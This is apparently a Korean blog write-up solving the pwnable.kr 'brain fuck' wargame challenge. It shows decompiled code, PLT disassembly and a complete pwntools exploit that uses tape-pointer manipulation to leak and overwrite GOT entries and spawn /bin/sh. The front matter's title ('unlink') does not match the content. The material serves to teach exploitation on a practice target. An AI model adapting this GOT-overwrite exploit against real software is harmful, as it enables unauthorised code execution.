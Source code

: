 ```yaml
---
layout: post
title: ! "[pwnable.kr] unlink"
excerpt_separator: <!--more-->
comments : true
tags:
  - pwnable
  - brainfuck
  - memory
  - chaem
---
```


오늘은 `pwnable.kr` Rookiss의 첫번째 문제인 `brain fuck`문제를 풀어볼까해요!  
brainfuck은 memory leak과 관련되 문제입니다.  

<!--more-->

brainfuck이 실제 컴퓨터 프로그래밍 언어였네요! 신기신기*.*  
자세한 내용은 위키에서 확인하세용 ㅎㅎ  

```
[brainfuck위키](https://ko.wikipedia.org/wiki/%EB%B8%8C%EB%A0%88%EC%9D%B8%ED%8D%BD)  
```

우선, 바이너리의 보호기법을 확인해 보겠습니다.  
32bit 바이너리이고, canary와 nx가 걸려있네요~  

```
pwndbg> checksec
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/ubuntu/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.0)
[*] '/home/ubuntu/pwnable_kr/brain/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

바이너리를 실행해보면, 다음과 같이 값을 입력받고 프로그램을 종료합니다.  

```
ubuntu@ubuntu:~$ nc pwnable.kr 9001
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
aaa
```

```
ubuntu@ubuntu:~$ nc pwnable.kr 9001
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
[]
[ and ] not supported.
```

[]를 입력해 보았더니, `[` 와 `]` 는 지원하지 않는다고 하네요.  

이렇게만 알 수 있는 것은 딱히 없어보이니, 바이너리를 분석해봅시다.  
main함수는 다음과 같습니다.  

```c

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@4
  int v4; // edx@4
  size_t i; // [sp+28h] [bp-40Ch]@1
  int v6; // [sp+2Ch] [bp-408h]@1
  int v7; // [sp+42Ch] [bp-8h]@1

  v7 = *MK_FP(__GS__, 20);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(&v6, 0, 0x400u);
  fgets((char *)&v6, 1024, stdin);
  for ( i = 0; i < strlen((const char *)&v6); ++i )
    do_brainfuck(*((_BYTE *)&v6 + i));
  result = 0;
  v4 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}

```

do_brainfuck 함수에서는 넘겨받은 글자를 아스키코드로 비교하여 실행하고 있습니다.  
ida로 보면, 각 문자들이 어떤 역할을 수행하는 지 알 수 있습니다.  

```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax@1
  _BYTE *v2; // ebx@7

  result = a1;
  switch ( a1 )
  {
    case '>':
      result = p++ + 1;
      break;
    case '<':
      result = p-- - 1;
      break;
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(_BYTE *)p);
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

main함수에서 p는 tape 변수의 주소를 가리키는 값입니다. 따라서 우리는 do_brainfuck 함수에서 p를 원하는대로 조작할 수 있습니다.  
do_brainfuck함수를 보면 딱 memory leak을 할 수 있다는 것이 보인다고 하네요...:(
우선 tape의 주소는 다음과 같습니다.  

```
.bss:0804A0A0 tape
```

이제 어떻게 shell을 실행시킬 수 있는지 생각해 보아야 하는데요, >,<를 이용해 메모리 값을 변경할 수 있고, getchar(), putchar()와 같은 명령을 사용할 수 있다는 것을 이용해 봅시다.  
위에서 봤던 main함수에서 있는 memset과 fgets의 got를 조작하여 shell을 실행시킬 수 있을 것이라 예상됩니다.  
memset의 got를 gets로 조작하여 /bin/sh를 입력하고, fgets의 got를 system으로 조작하고, putchar의 got를 main으로 조작하여 putchar를 실행시키면 될 것 입니다.  
`objdump -S bf` 이 명령어를 이용하여 plt값들을 알 수 있습니다.  

```
Disassembly of section .plt:

08048430 <getchar@plt-0x10>:
 8048430:	ff 35 04 a0 04 08    	pushl  0x804a004
 8048436:	ff 25 08 a0 04 08    	jmp    *0x804a008
 804843c:	00 00                	add    %al,(%eax)
	...

08048440 <getchar@plt>:
 8048440:	ff 25 0c a0 04 08    	jmp    *0x804a00c
 8048446:	68 00 00 00 00       	push   $0x0
 804844b:	e9 e0 ff ff ff       	jmp    8048430 <_init+0x24>

08048450 <fgets@plt>:
 8048450:	ff 25 10 a0 04 08    	jmp    *0x804a010
 8048456:	68 08 00 00 00       	push   $0x8
 804845b:	e9 d0 ff ff ff       	jmp    8048430 <_init+0x24>

08048460 <__stack_chk_fail@plt>:
 8048460:	ff 25 14 a0 04 08    	jmp    *0x804a014
 8048466:	68 10 00 00 00       	push   $0x10
 804846b:	e9 c0 ff ff ff       	jmp    8048430 <_init+0x24>

08048470 <puts@plt>:
 8048470:	ff 25 18 a0 04 08    	jmp    *0x804a018
 8048476:	68 18 00 00 00       	push   $0x18
 804847b:	e9 b0 ff ff ff       	jmp    8048430 <_init+0x24>

08048480 <__gmon_start__@plt>:
 8048480:	ff 25 1c a0 04 08    	jmp    *0x804a01c
 8048486:	68 20 00 00 00       	push   $0x20
 804848b:	e9 a0 ff ff ff       	jmp    8048430 <_init+0x24>

08048490 <strlen@plt>:
 8048490:	ff 25 20 a0 04 08    	jmp    *0x804a020
 8048496:	68 28 00 00 00       	push   $0x28
 804849b:	e9 90 ff ff ff       	jmp    8048430 <_init+0x24>

080484a0 <__libc_start_main@plt>:
 80484a0:	ff 25 24 a0 04 08    	jmp    *0x804a024
 80484a6:	68 30 00 00 00       	push   $0x30
 80484ab:	e9 80 ff ff ff       	jmp    8048430 <_init+0x24>

080484b0 <setvbuf@plt>:
 80484b0:	ff 25 28 a0 04 08    	jmp    *0x804a028
 80484b6:	68 38 00 00 00       	push   $0x38
 80484bb:	e9 70 ff ff ff       	jmp    8048430 <_init+0x24>

080484c0 <memset@plt>:
 80484c0:	ff 25 2c a0 04 08    	jmp    *0x804a02c
 80484c6:	68 40 00 00 00       	push   $0x40
 80484cb:	e9 60 ff ff ff       	jmp    8048430 <_init+0x24>

080484d0 <putchar@plt>:
 80484d0:	ff 25 30 a0 04 08    	jmp    *0x804a030
 80484d6:	68 48 00 00 00       	push   $0x48
 80484db:	e9 50 ff ff ff       	jmp    8048430 <_init+0x24>
```

exploit은 다음과 같습니다.  

```python
from pwn import *

libc = ELF('./bf_libc.so')

s = remote('pwnable.kr', 9001)
s.recvline_startswith('type')

payload = '<' * (0x0804A0A0 - 0x0804A010)
payload += '.>' * 4 #read fget@plt address
payload += '<' * 4 #move to start of fget@plt
payload += ',>' * 4 #overwrite fget@plt to system()
payload += '>' * (0x0804A02C - 0x0804A014)
payload += ',>' * 4 #overwrite memset to gets
payload += ',>' * 4 #overwrite putchar to main
payload += '.' #execute main function

s.sendline(payload)

fgets_addr = s.recvn(4)[::-1].encode('hex')
system_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['system']
gets_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['gets']

s.send(p32(system_addr))
s.send(p32(gets_addr))
s.send(p32(0x08048671))
s.sendline('/bin/sh\00')
s.interactive()
```
